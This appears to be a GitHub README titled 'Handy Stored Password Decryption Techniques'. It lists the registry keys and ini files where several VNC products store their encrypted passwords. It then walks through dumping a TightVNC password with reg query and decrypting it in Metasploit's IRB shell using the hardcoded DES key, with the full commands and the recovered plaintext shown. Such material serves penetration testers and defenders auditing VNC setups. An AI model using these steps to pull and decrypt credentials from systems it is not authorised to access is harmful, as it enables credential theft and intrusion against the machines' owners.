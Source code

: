# PasswordDecrypts
Handy Stored Password Decryption Techniques

## VNC

VNC uses a hardcoded DES key to store credentials.  The same key is used across multiple product lines.

*RealVNC*  
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver  
Value: Password  
 
*TightVNC*  
HKEY_CURRENT_USER\Software\TightVNC\Server  
HKLM\SOFTWARE\TightVNC\Server\ControlPassword

tightvnc.ini  
vnc_viewer.ini  
Value: Password or PasswordViewOnly  
  
*TigerVNC*  
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4  
Value: Password  
  
*UltraVNC*  
C:\Program Files\UltraVNC\ultravnc.ini  
Value: passwd or passwd2  

### Test Case
I downloaded TightVNC version 2.8.11 and found my password was stored here: HKLM\SOFTWARE\TightVNC\Server\ControlPassword so I used reg query to extract the encrypted password:
  
```
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    REG_BINARY    D7A514D8C556AADE
    ControlPassword    REG_BINARY    1B8167BC0099C7DC
--- SNIP ---

```
With the encypted VNC password: 
D7A514D8C556AADE  

I was able decrypt it easily using the Metasploit Framework and the IRB (ruby shell) with these 3 commands:  
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"   
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey   
  
```BASH
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```

